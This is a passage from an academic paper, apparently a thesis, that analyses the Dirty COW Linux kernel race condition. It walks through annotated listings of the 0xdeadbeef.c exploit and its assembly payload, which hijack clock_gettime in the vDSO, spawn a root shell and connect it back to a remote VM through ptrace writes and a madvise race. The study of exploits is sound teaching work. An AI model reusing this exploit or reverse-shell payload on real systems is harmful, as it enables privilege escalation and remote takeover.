On x86\_64 Linux, the first four function arguments are passed in the \textit{rdi}, \textit{rsi}, \textit{rdx}, and \textit{rcx} registers \cite{49}. These registers contain the function arguments for the clock\_gettime function. The following assembly code of the payload overwrites these registers. Therefore, the registers are pushed to the stack, so that they can be restored later before the payload returns to the clock\_gettime function.

\begin{lstlisting}[caption=Check if Running as Root - payload.s \cite{42}, captionpos=b, label=payload3]
    ; return if getuid() != 0
    mov	rax, SYS_GETUID
    syscall
    test	rax, rax
    jne	return
\end{lstlisting}

The value in the \textit{rax} register specifies the ID of the system call that is called with the \textit{syscall} instruction. The return value of this call is placed into the \textit{rax} register. System call \textit{SYS\_GETUID} returns the effective UID of the process. If this UID is not zero, the payload executes the code at 'return', which is shown in the following listing \ref{payload4}.

\begin{lstlisting}[caption=Return to clock\_gettime - payload.s \cite{42}, captionpos=b, label=payload4]
return:
    ;; restore registers
    pop     rcx
    pop     rdx
    pop     rsi
    pop     rdi
    ;; get callee address (pushed on the stack by the call instruction)
    pop     rax
    ;; execute missed instructions (patched by 0xdeadbeef.c)
    db	0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
    ;; return to callee
    jmp     rax
\end{lstlisting}

As mentioned previously, when the payload returns back to the clock\_gettime function, the clock\_gettime function arguments are restored from the stack to their original registers. With \textit{db 0x90..}, the assembler writes 12 NOP (No operation) instructions at this position in the payload. Part two of exploit overwrites the start of the clock\_gettime function. These overwritten bytes must be executed and are thus written to and executed by the payload before the code returns to the clock\_gettime function. The code returns to the instruction following the overwritten bytes, i.e. part two, in the clock\_gettime function.

\begin{lstlisting}[caption=Return if lockfile exists - payload.s \cite{42}, captionpos=b, label=payload5]
    ; return if open("/data/b", O_CREAT|O_EXCL, x) == -1
    mov     rsi, 0x00622f617461642f
    push    rsi
    mov     rdi, rsp
    mov     rsi, 192
    mov     rax, SYS_OPEN
    syscall
    test    rax, rax
    pop     rsi
    js      return

    ;; fork
    mov     rax, SYS_FORK
    syscall
    test    rax, rax
    jne return
\end{lstlisting}

The code in listing \ref{payload5} is executed if the process does not 'return', i.e. if the process is running with effective UID 0. Additionally, the process also immediately returns if the file \textit{/data/b} exists already. In listing \ref{payload5}, \textit{0x00622f617461642f} is the \textit{/data/b} string in hex and little endian. The payload in the android VM should fork, execute a root\index{Root Shell} shell and connect to the remote VM only once. After the connection is established, there is no reason to fork and execute the payload again. Forking every time that the clock\_gettime function is called would noticeably slow down the system. For this reason, \textit{/data/b} is used as a lockfile. If the lockfile exists, the payload won't fork, execute a root shell, and connect to the remote anymore. If the lockfile does not exist, the lockfile \textit{/data/b} is created and the following code in listing \ref{payload6} is executed.

\begin{lstlisting}[caption=Create Socket - payload.s \cite{42}, captionpos=b, label=payload6]
		;; sockfd = socket(AF_INET, SOCK_STREAM, 0)
...
    push	AF_INET
    pop	rdi
    add	al, SYS_SOCKET
    syscall

    ; copy socket descriptor to rdi for future use
    push	rax
    pop	rdi

    ; server.sin_family = AF_INET
    ; server.sin_port = htons(PORT)
    ; server.sin_addr.s_addr = IP
    ; bzero(&server.sin_zero, 8)
...
    mov	dword [rsp + 0x4], IP
    mov	word [rsp + 0x2], PORT
    mov	byte [rsp], AF_INET

    ;; connect(sockfd, (struct sockaddr *)&server, sockaddr_len)
...
    push	SYS_CONNECT
    pop	rax
    syscall
    test    rax, rax
    js      exit

    ;; dup2(sockfd, STDIN); dup2(sockfd, STDOUT); dup2(sockfd, STERR)
...
\end{lstlisting}

Listing \ref{payload6} shown relevant parts of the assembly code where a socket is created and a connection to the Ubuntu VM is established. The \textit{IP} and \textit{PORT} labels are overwritten by the exploit.c code. These will contain the IP and port of the Ubuntu VM. netcat is used to create a socket that is listening for incoming connections on port \textit{PORT}. Listing \ref{payload6} creates this connection. Commands are written on the Ubuntu VM and sent to the remote process via the socket. \textit{dup2} forwards these commands from the socket to the stdin, stdout, and stderr streams of the process executing the payload.

\begin{lstlisting}[caption=Execute Root Shell - payload.s \cite{42}, captionpos=b, label=payload7]
    ;; execve '/system/bin/sh', argv points to array ['/system/bin/sh', NULL]
    push  rsi   ; rsi is 0 
    pop rdx
    push  rsi
    mov rdi, 'bin/sh'
    push rdi
    mov rdi, '/system/' ; str
    push rdi
    push rsp
    pop rdi     ; rdi = &str (char*)

    push 0      ; argv[1] ; argv args in right to left order
    push rdi    ; argv[0] points to '/system/bin/sh'
    push rsp    ; rsp points to argv
    pop rsi     ; rsi points to argv
    mov rdx, 0  ; rdx is envp

    xor rax, rax
    mov al, SYS_EXECVE
    syscall
\end{lstlisting}

Listing \ref{payload7} sets up the arguments and executes the execve system call. This results in executing \textit{/system/bin/sh} with root privileges. The data that is received from the socket is written to the stdin stream of this root shell\index{Root Shell}. Thus, this data is interpreted as commands. The output of these commands is sent back to the Ubuntu VM via the socket as well.

The code in listing \ref{payload7} gives an example of how data like the \textit{/system/bin/sh} string is embedded in between the executable machine code. Data is used in the immediates, i.e. the argument of machine code instructions. This data is pushed onto the stack. The rsp register, which contains the address to the topmost element on the stack, is pushed to the stack and popped to both the rdi and rsi registers. rdi and rsi are now pointers to the data that was previously pushed onto the stack.

On x86\_64, the immediate of the push instruction can have a maximum size of 32 bits. However, the push instruction always pushes 64 bit onto the stack. If a push instruction is used with an immediate, 32 zero bits are pushed onto the stack as well as the immediate. These null bytes can pre-emptively null terminate the \textit{/system/bin/sh} string. The push instruction can push 64 bit if its argument is a 64 bit register. For this reason, the data string is moved to a register first and then the content of this register is pushed onto the stack.

\section{0xdeadbeef.c Exploit}

This section explains interesting parts of the 0xdeadbeef.c exploit source code that differ from the demo 1 code. The 0xdeadbeef.c includes comments from the original author \cite{42} and I have extended these comments. Interested readers can open the '/home/user/demo2/0xdeadbeef.c' file in the Ubuntu VM to see the whole exploit source code with comments.

Demo 2 writes to the vDSO\index{vDSO} mapping via ptrace instead of via /proc/self/mem\index{/proc/self/mem} as in demo 1. ptrace allows a process to observe, control, and write to another process \cite{51}. Debuggers like GDB and tracing tools like strace use ptrace\index{ptrace} \cite{50}. As mentioned in section \ref{The proc Filesystem}, a process is allowed to trace child processes via ptrace. The exploit uses clone to spawn a new child process. clone is similar to fork \cite{52}. The call to clone in the exploit is shown in figure \ref{clonecall}:

\begin{lstlisting}[caption=clone and debuggee function - 0xdeadbeef.c \cite{42}, captionpos=b, label=clonecall]
static void *ptrace_thread(void *arg_) {
...
	pid = clone(debuggee, child_stack + sizeof(child_stack) - 8, flags, arg);
...
}

static int debuggee(void *arg_) {
...
	ptrace(PTRACE_TRACEME, 0, NULL, NULL);
...
}
\end{lstlisting}

\textit{clone} spawns a new process \cite{52}. This new process calls the \textit{debuggee} function in 0xdeadbeef.c. \textit{ptrace}\index{ptrace} with the \textit{PTRACE\_TRACEME} argument initiates a trace, and it allows the parent process to trace the calling process \cite{51}. 

The parent process is allowed to write to the vDSO\index{vDSO} mapping in the child process's memory. Clone has an argument for flags. These flags can modify the \textit{clone} behaviour and they can specify what the calling and child processes share \cite{52}. With \textit{CLONE\_VM}, both calling and child process run in the same virtual memory space \cite{52}. For this reason, the start and end address of the vDSO mapping in the child process are the same as the vDSO mapping in the parent. In other words, the position of the vDSO mapping is not randomized by ASLR\index{Address Space Layout Randomization}. Thus, the parent process knows to which virtual address it has to write in the child process to overwrite the vDSO\index{vDSO}. Listing \ref{writetotracee} shows how this write is called.

\begin{lstlisting}[caption=Writing to the child via ptrace PTRACE\_POKETEXT, - 0xdeadbeef.c \cite{42}, captionpos=b, label=writetotracee]
static int ptrace_memcpy(pid_t pid, void *dest, const void *src, size_t n) {
  const unsigned char *s;
  unsigned long value;
  unsigned char *d;

  d = dest;
  s = src;

  // Overwrite sizeof(long)=8 bytes at a time. d points to the vDSO mapping.
  while (n >= sizeof(long)) {
    memcpy(&value, s, sizeof(value));
    if (ptrace(PTRACE_POKETEXT, pid, d, value) == -1) {
      return -1;
    }

    n -= sizeof(long);
    d += sizeof(long);
    s += sizeof(long);
  }
...
}
\end{lstlisting}

\textit{ptrace} with the \textit{PTRACE\_POKETEXT}\index{ptrace} argument copies 8 bytes from \textit{value} to address \textit{d} in the virtual address space\index{Virtual Address Space} of a tracee process with PID \textit{pid} \cite{51}. The code in listing \textit{writetotracee} loops until all bytes are written to the destination, i.e. the vDSO\index{vDSO} mapping. Another thread periodically checks via a function called 'check' whether a copy or the underlying vDSO 'file' was written to. The \textit{ptrace\_memcpy} function is repeatedly invoked by the writing thread until the underlying vDSO 'file' is overwritten. 0xdeadbeef.c also spawns a thread that repeatedly invokes madvise with MADV\_DONTNEED\index{MADV\_DONTNEED}. This is similar to listing \ref{madvise} and shown in listing \ref{deadbeefmadvise}. The 'check' thread sets \textit{arg->stop} to true if the underlying vDSO\index{vDSO} 'file' was successfully overwritten.

\begin{lstlisting}[caption=madvise vDSO mapping, - 0xdeadbeef.c \cite{42}, captionpos=b, label=deadbeefmadvise]
static void *madviseThread(void *arg_) {
  struct mem_arg *arg;

  arg = (struct mem_arg *)arg_;
  while (!arg->stop) {
    if (madvise(arg->vdso_addr, VDSO_SIZE, MADV_DONTNEED) == -1) {
      break;
    }
  }

  return NULL;
}
\end{lstlisting}


\chapter{Conclusion} \label{Conclusion}

This paper analysed and demonstrated the Dirty COW vulnerability. Dirty COW is a race condition\index{Race Condition} in the Linux kernel's memory subsystem\index{Memory Subsystem} \cite{54}. More specifically, it is a bug in the page fault handler implementation when virtual memory is accessed via the kernel's process-to-process virtual memory access\index{Virtual Memory Access} implementation \cite{1}.

Writing to a private COW mapping, for which no copy exists yet, is not atomic \cite{9}. On vulnerable kernels, a situation can occur where a process successfully writes to read-only memory. In this situation, the kernel fails to create a COW copy in a private COW mapping\index{private COW mapping} and instead of writing to the copy, the kernel writes to the underlying 'file' that is mapped into the virtual address space\index{Virtual Address Space} of the calling process via the private COW mapping.

The madvise system call with the MADV\_DONTNEED\index{MADV\_DONTNEED} flag advises the kernel that a specific memory range is not needed in the near future \cite{11}. This results in the kernel unmapping and dropping the pages in the specified memory range. Such pages can be associated with a private COW mapping.

madvise with MADV\_DONTNEED\index{MADV\_DONTNEED} can be used to drop a copied COW page before the kernel tries to retrieve and write to the, then dropped, copied COW \cite{1}. Dropping the page results in a failed request to retrieve that page. The page fault handler is then tasked with resolving this issue so that the next page request is successful. Due to the Dirty COW bug, the page fault handler loads a page from the underlying file instead of making a copy of that page \cite{1}. The reason for this is that the page fault handler interpreted the memory access as a read access and not as a write access \cite{1}. This occurred when the page fault handler already created a copy in a previous invocation and the page fault handler did not expect that the copy could be dropped in the meantime. Reading a private COW mapping\index{private COW mapping} does not create a copy \cite{29}. Instead, the underlying file is read directly from disk or from the page cache \cite{29}.

The bug analysis was followed up with two demonstrations. Demonstration one overwrote a set-user-ID binary\index{set-user-ID binary} to give an unprivileged user access to a root shell. This demonstration wrote to its virtual address space\index{Virtual Address Space} via /proc/self/mem\index{/proc/self/mem}. The second demonstration overwrote two parts of the vDSO\index{vDSO} mapping. The vDSO is automatically mapped into every process by the kernel \cite{46}. vDSO contains system call functions that are invoked often, such as the clock\_gettime function \cite{46}. The clock\_gettime function was overwritten. A root shell\index{Root Shell} was spawned when a process running as root invoked the clock\_gettime function. The root shell connected to a remote Ubuntu machine via a socket. This resulted in an unprivileged user being able to send commands to the android system from the Ubuntu system. These commands were then executed in the root shell with root privileges. The second demonstration wrote to its virtual address space via ptrace\index{ptrace}.


\clearpage

\begingroup
\let\clearpage\relax

\listoffigures

\addcontentsline{toc}{chapter}{Listings}
\lstlistoflistings

\printabbreviations[nonumberlist]

\endgroup

\printindex

\printbibliography

\end{document}

